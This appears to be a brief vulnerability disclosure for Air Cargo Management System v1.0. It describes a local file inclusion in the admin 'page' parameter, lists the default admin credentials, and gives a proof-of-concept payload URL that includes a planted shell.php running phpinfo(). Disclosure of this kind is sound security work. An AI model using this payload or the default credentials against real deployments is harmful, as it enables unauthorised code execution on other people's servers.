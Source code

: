 # Air Cargo Management System v1.0 by oretnom23 has The local file contains

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: ip/acms/admin/?page=

Vulnerability location: ip/acms/admin/?page=, page

The password for the backend login account is: admin/admin123

Payload: http://ip/acms/admin/?page=shell


![image](https://user-images.githubusercontent.com/54017627/166401497-32743d6a-1dbf-4c05-a041-2243929c5e9f.png)

We create a shell.php under the admin directory of the website, which reads "<? phpinfo ();? > "
![image](https://user-images.githubusercontent.com/54017627/166400989-1e0d7bf7-0a3b-4644-8b23-83965140409b.png)

And visit http://ip/acms/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166401596-847e9629-c9cd-45e8-920a-2c585727d913.png)

